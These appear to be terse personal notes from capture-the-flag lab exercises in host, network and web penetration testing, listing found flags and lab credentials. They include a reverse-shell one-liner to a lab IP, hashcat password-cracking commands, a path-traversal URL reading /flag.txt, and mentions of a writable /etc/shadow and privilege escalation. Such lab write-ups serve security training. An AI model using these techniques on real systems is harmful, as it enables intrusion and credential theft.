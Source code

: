 
Found in /etc/cron.d/
FLAG3_9322dfef28f149f69afc10253ecc70ed


Found under /etc/hosts
FLAG4_349ac5d4b7cc4d878d6620cb976b75d6



from the first target we found creds.txt file with user john:Pass@john123 and we log in with SSH to the second machine:

	sh -i >& /dev/tcp/192.79.70.2/7777 0>&1



Solution was so dump the /etc/shadow file was writable 😤🥴

FLAG5_762621fc0f04488e820fdad4fc249d6b


# **Host & Network Penetration Testing: Post-Exploitation CTF 2**
Flag1 found in the home directory of user alice:princess1 after brute forcing its creds
7fdbd6c12b834621b0eb24f47a37e470


Found after finding hashdump.txt file in alice home directory and we brute forced this file using this command:

```
hashat -a3 -m 1000 hashedump.txt /usr/share/wordlists/metasploit/unix_passwords.txt

hashcat -m 1000 --show hashdump.txt
```

c08b4b5a31dc452eb1e00ca3762cc5f7



Found after escalating privs on david's account using Impersonate permission inside /windows/system32/config/flag3.txt
06c79e39545e43198ce0d9c3be6f83ed



Found after changing the "file" folder permissions after it was dening us from reading it we removed that rule and we were able to read it...
dcbd7e2e57ad4f1c81e31372f184f577



# **Web Application Penetration Testing CTF 1**

Found in this path:
`http://192.238.168.3/view_file?file=/flag.txt`

FLAG1_e33a6af1672a4508a33c87cfc50d3290


Found under this directory:
`http://192.238.168.3/secured/flag.txt`
